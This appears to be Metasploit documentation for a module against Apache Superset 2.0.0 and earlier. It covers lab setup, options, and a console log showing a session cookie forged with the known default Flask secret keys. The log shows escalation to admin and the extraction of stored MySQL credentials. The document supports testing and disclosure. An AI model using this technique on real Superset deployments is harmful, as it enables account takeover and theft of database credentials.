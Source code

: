 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

## App Install

```
sudo docker run -p 8088:8088 -name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'public' as the permission level.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.


### ADMIN_ID

The ID of an admin account. Defaults to `1`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYi.ZK2qOQ.c-LssFFTxWJKoQZ7v1Sex8q-xy0
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDY0MGYzZGVlNzJiMDkzMWIwMTgyMzBhYjg3ZDE3NjU0ZjRlMGZlZiIsImxvY2FsZSI6ImVuIn0.ZK2qOQ.oXIWtpT7OItq7Vmr-00Prtl4Pmg;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwlj0tqAzEQRO-itRf9G7XalxkkdTc2MTbM2KuQu0chy6Io6r3vsucR561c38cnLmW_e7mWMKE-qmR3UcdB0LB2EczOSC6VeCNBowruSYxjNdswtOnNY3BuuuG0VodSotpMVuzk6AlCDUcqayoYpIu3ZgLAjad1q4xRLmWeR-7v11c8F49XgWSPUBpg6w6wEUMfbdFp3SQlICPX7vGa_RF_Ds-VPmcc_0pUfn4BrnVCHw.ZK2qOQ.SCiqOSW_PTP9VPz2CfG_2IZmHyI;
[*] 127.0.0.1:8088 - Modified cookie: {"_fresh"=>true, "_id"=>"e942ab64fad47d1b20816a441fa312d462352419260ddf231b1fa5b919cd8deb3f5751c986b72f179cf371a2d1df04281bf737f7090fd4d889400383c9a9631e", "csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en", "user_id"=>1}
[*] Attempting to resign with key: thisismyscretkey\e\y\y\h
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.fv4N_O6m35thR0PFpOdy7E8MA_Y
[-] 127.0.0.1:8088 - Cookie not accepted
[*] Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.XIvqgEv_nviSivPJjE73KOWKMEI
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found mysql database exampledb: root:my-secret-pw@111.222.3.444:3306
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
